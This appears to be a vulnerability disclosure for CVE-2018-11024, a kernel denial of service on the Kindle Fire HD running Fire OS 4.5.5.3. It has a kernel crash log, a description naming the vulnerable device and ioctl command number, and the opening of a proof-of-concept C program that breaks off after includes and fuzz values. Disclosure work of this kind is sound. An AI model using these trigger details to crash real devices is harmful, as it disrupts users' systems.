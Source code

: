 ```
[   97.242767] CPU0 PC (9) : 0xc003ee54
[   97.246826] CPU1 PC (0) : 0xc0019b2c
[   97.251007] CPU1 PC (1) : 0xc0019b2c
[   97.255065] CPU1 PC (2) : 0xc0019b2c
[   97.259124] CPU1 PC (3) : 0xc0019b2c
[   97.263183] CPU1 PC (4) : 0xc0019b2c
[   97.267364] CPU1 PC (5) : 0xc0019b2c
[   97.271423] CPU1 PC (6) : 0xc0019b2c
[   97.275482] CPU1 PC (7) : 0xc0019b2c
[   97.279693] CPU1 PC (8) : 0xc0019b2c
[   97.283752] CPU1 PC (9) : 0xc0019b2c
[   97.287811] 
[   97.289581] Restarting Linux version 3.4.83-gd2afc0bae69 (build@14-use1a-b-39) (gcc version 4.7 (GCC) ) #1 SMP PREEMPT Tue Sep 19 22:04:47 UTC 2017
[   97.289611] 

```


 ## CVE-2018-11024
 ### Abstract
 
* Name: Amazon Kindle Fire HD (3rd Generation) Kernel DoS
* Date: 2018-10-10
* Reporter: Shuaibing Lu
* Vendor: http://www.amazon.com/
* Software Link: https://fireos-tablet-src.s3.amazonaws.com/46sVcHzumgrjpCXPHw6oygKVmw/kindle_fire_7inch_4.5.5.3.tar.bz2
* Version: Fire OS 4.5.5.3
### Description
Kernel module /omap/drivers/misc/gcx/gcioctl/gcif.c in the kernel component in Amazon Kindle Fire HD(3rd) Fire OS 4.5.5.3 allows attackers to inject a crafted argument via the argument of an ioctl on device /dev/gcioctl with the command 1077435789 and cause a kernel crash.

### PoC
```
#include<stdio.h>
#include<string.h>	  //strlen
#include<sys/socket.h>
#include<arpa/inet.h> //inet_addr
#include<unistd.h>	  //write
#include <stdlib.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <stdbool.h>

// Socket boilerplate code taken from here: http://www.binarytides.com/server-client-example-c-sockets-linux/

/*
 seed, ioctl_id, num_mappings, num_blobs, dev_name_len, dev_name, map_entry_t_arr, blobs
*/
int debug = 1;

typedef struct {
	int src_id;
	int dst_id;
	int offset;
} map_entry_t;

short tiny_vals[18] = {128, 127, 64, 63, 32, 31, 16, 15, 8, 7, 4, 3, 2, 1, 0, 256, 255, -1};
```
